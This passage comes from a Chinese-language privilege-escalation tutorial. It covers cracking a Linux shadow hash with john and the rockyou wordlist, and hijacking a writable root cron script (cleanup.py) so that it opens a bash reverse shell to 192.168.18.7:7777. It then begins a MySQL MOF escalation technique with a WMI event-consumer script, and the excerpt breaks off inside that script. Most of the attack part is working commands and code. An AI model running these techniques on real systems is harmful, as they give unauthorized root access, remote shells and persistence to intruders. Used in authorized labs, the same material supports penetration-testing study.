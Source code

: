 #### 8.john破解shadow root密文登陆提权

john会自动检测密文类型 --wordlist 字段文件

```
john --wordlist="/usr/share/wordlists/rockyou.txt" userpassw
```

![image-20230717154906354](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230717154906354.png)

#### 9.Ubuntu计划任务反弹shell提权

```
cat /etc/crontab  #查看计划任务
crontab -l   #查看当前用户的计划任务
ls /var/spool/cron/crontabs/root #root任务文件目录 
默认情况下非root权限不可见

```

```
tail -f /var/log/syslog
通过syslog 查看日志，发现cleanup.py文件每分钟会以root权限运行一次
```

![image-20230717155211815](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230717155211815.png)

发现当前用户可以修改cleanup.py文件

![image-20230717155319351](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230717155319351.png)

尝试修改计划任务进行反弹shell

```
bash -i >& /dev/tcp/192.168.18.7/7777 >&1
```

![image-20230717155442919](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230717155442919.png)

### 数据库提权

#### 1.MOF提权

MySQL数据库，Windows<=2003

MOF文件既然每五秒就会执行，而且是系统权限；

我们通过mysql将文件写入一个MOF文件替换掉原有的MOF文件；

然后系统每隔五秒就会执行一次我们上传的MOF。

MOF当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权：

```vbscript
#pragma namespace("\\\\.\\root\\subscription") 
 
instance of __EventFilter as $EventFilter 
{ 
    EventNamespace = "Root\\Cimv2"; 
    Name  = "filtP2"; 
    Query = "Select * From __InstanceModificationEvent " 
            "Where TargetInstance Isa \"Win32_LocalTime\" " 
            "And TargetInstance.Second = 5"; 
    QueryLanguage = "WQL"; 
}; 
 
instance of ActiveScriptEventConsumer as $Consumer 
{ 
    Name = "consPCSV2"; 
    ScriptingEngine = "JScript"; 
```